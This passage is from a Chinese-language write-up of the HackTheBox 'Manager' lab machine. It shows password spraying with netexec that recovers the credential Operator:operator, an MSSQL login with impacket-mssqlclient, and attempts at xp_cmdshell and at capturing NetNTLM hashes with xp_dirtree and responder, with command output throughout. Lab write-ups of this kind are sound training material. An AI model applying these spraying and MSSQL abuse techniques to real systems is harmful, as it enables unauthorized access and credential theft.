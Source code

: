 ```bash
SMB         10.10.11.236    445    DC01             [-] manager.htb\ChinHae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\Operator:operator
```

我们得到了 `Operator` 账户的账号密码

```
username: Operator
password: operator
```

> [!note]
> 1. 使用 netexec 进行密码爆破的时候，需要设置 `--no-bruteforce` 这样可以在爆破的时候，用户名和密码一一对应，而不会每一个用户名都尝试一遍所有密码。
> 2. 设置 `--continue-on-success` 参数是为了爆破出所有的有效账户。如果不设置该参数，则会在爆破出第一个有效账户的时候，结束爆破。

先枚举 `Operator` 账户可以访问的smb文件共享，发现没有敏感文件可以访问。然后尝试用该账户访问mssql，发现可以成功访问

```bash
kali@kali[~]$ netexec mssql 10.10.11.236 -u Operator -p operator
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\Operator:operator
```

一并枚举 `winrm`、`ldap` 服务，发现还能访问 `ldap`
## 03. 使用Operator账户攻击MSSQL

我们先使用 `impacket-mssqlclient` 连上 mssql 数据库。

1. 尝试使用 `xp_cmdshell` 执行命令 --> 失败，报错数据库没有启用 `xp_cmdshell`
2. 尝试使用 `enable_xp_cmdshell` 启用 `xp_cmdshell` --> 失败，报错没有权限启用
3. 使用 `xp_dirtree` + `responder` 捕获 NetNTLM hash --> 捕获到的 NetNTLM hash 无法破解成明文
4. 使用 `xp_dirtree` 收集本机信息，一番寻找之后在网站跟目录下找到了网站的备份文件

> [!note]
> 注：在使用 `impacket-mssqlclient` 进行数据库连接的时候，记得添加 `-windows-auth`。
> MSSQL的认证方式主要可以分为以下两种：
>    1. MSSQL直接创建的数据库账户，由MSSQL通过账户密码直接认证
>    2. 具有MSSQL访问权限的域用户，基于Windows的身份认证机制进行认证
> 
> 由于我们的账户属于域用户，所以在登录的时候，需要使用基于Windows的身份认证方式。如果不添加 `-windows-auth` 会登录失败

```bash
kali@kali[~]$ impacket-mssqlclient 'Operator':'operator'@'10.10.11.236' -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
<省略...>
SQL (MANAGER\Operator  guest@master)> xp_dirtree \inetpub\wwwroot\
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1
contact.html                          1      1
css                                   1      0
images                                1      0
index.html                            1      1
js                                    1      0
service.html                          1      1
web.config                            1      1
```